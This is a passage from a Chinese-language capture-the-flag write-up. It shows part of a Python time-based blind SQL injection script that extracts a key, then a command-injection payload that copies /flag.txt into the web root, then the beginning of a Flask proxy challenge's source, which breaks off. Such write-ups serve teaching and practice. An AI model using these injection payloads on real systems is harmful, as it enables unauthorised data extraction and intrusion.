 ```python


        data = {
            'username': "1'or\t1=",
            'password': f'or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#'
        }
        try:
            r = requests.post(url, data=data, timeout=1)
            print(r.text)
            tail = mid
        except requests.exceptions.Timeout:
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        result += chr(head)
    else:
        break
    print("[*]Result : "+result)
```

可以拿到key

```python
[*]Result : dtfrtkcc0czkoua9S
```

![image](../assets/image-20250407001235-klyirfh.png)

在doublecheck.php中输入拿到的key后，会跳转到index.php，可以进行命令执行但是无回显

```python
cat%09/flag.txt>/var/www/html/flag
```

‍

### Fate

源码

```python
#!/usr/bin/env python3
import flask
import sqlite3
import requests
import string
import json
app = flask.Flask(__name__)
blacklist = string.ascii_letters
def binary_to_string(binary_string):
    if len(binary_string) % 8 != 0:
        raise ValueError("Binary string length must be a multiple of 8")
    binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
    string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
    
    return string_output

@app.route('/proxy', methods=['GET'])
def nolettersproxy():
    url = flask.request.args.get('url')
    if not url:
        return flask.abort(400, 'No URL provided')
    
    target_url = "http://lamentxu.top" + url
```